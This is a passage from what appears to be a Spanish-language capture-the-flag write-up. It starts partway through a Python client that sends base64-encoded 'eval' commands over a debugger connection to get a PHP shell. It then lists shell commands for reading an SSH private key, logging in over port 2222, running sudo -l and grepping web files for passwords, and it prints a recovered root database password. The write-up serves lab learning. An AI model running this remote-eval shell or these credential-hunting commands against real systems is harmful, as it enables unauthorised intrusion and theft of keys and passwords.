 ```python
	
	base64_response = re.findall(r'CDATA\[(.*?)\]', client_data)[0]
	try:
		command_output = b64decode(base64_response)
		print(command_output)
	except:
		pass
	
	data = raw_input ('>> ')
	conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

> Tenemos shell en php

## OS (php)
```bash
whoami
pwd
hostname -I
ls /home
ls /home/www-data
ls /home/www-data/.ssh
cat /home/www-data/.ssh/id_rsa
```

> Tenemos conexión con la 192.168.254.3
> id_rsa

Al intentar usar la id_rsa, no conseguimos conectarnos. Pero al utilizar el servicio ssh por el puerto 2222. Nos conecta

## OS (ssh 2222)

```bash
ls /home
cat user.txt
id
sudo -l
uname -a
cat /etc/os-release
cd /var/www/html
cd vpn
grep -r -i -E "user|pass|key"
ifconfig
```

> user.txt

> Linux 4.19
> Ubuntu 18.04.4

> USER: root
> PASS: 2108@C00l
> DB: static
